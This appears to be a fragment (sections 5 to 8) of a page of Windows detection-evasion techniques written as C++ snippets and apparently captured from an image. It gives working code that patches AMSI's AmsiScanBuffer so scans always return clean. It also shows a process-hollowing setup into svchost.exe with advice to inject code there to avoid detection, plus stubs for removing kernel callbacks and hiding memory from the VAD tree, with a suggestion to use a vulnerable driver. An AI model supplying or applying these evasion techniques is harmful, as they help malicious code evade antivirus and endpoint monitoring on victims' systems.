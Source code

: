 ### 5. **AMSI (Antimalware Scan Interface) Bypass**
```cpp
// Patch AMSI to prevent scanning
void BypassAMSI() {
    HMODULE amsi = LoadLibraryA("amsi.dll");
    if (amsi) {
        void* AmsiScanBuffer = GetProcAddress(amsi, "AmsiScanBuffer");
        if (AmsiScanBuffer) {
            DWORD oldProtect;
            VirtualProtect(AmsiScanBuffer, 8, PAGE_EXECUTE_READWRITE, &oldProtect);
            // Patch to always return clean
            *(UINT64*)AmsiScanBuffer = 0xC3C031; // XOR EAX,EAX; RET
            VirtualProtect(AmsiScanBuffer, 8, oldProtect, &oldProtect);
        }
    }
}
```

### 6. **Process Hollowing Alternative**
Instead of injecting into the target, consider:
```cpp
// Create suspended legitimate process and hollow it out
STARTUPINFO si = { sizeof(si) };
PROCESS_INFORMATION pi;
CreateProcess("C:\\Windows\\System32\\svchost.exe", NULL, NULL, NULL, 
              FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi);

// Hollow out the process and inject your code
// This makes detection much harder as it appears as legitimate process
```

### 7. **Kernel Callbacks Bypass**
```cpp
// Remove kernel callbacks that notify of process/thread creation
typedef struct _CALLBACK_ENTRY {
    LIST_ENTRY CallbackList;
    PVOID Callback;
} CALLBACK_ENTRY, *PCALLBACK_ENTRY;

void RemoveKernelCallbacks() {
    // This requires kernel access but prevents notification of your activities
    // Consider using a vulnerable driver for kernel access (use with caution)
}
```

### 8. **VAD (Virtual Address Descriptor) Hiding**
```cpp
// Hide memory regions from VAD tree
// This requires kernel-level access but completely hides allocations
void HideFromVAD(PVOID Address) {
    // Unlink from VAD tree in kernel structures
    // Prevents memory from showing in process memory maps
}
```
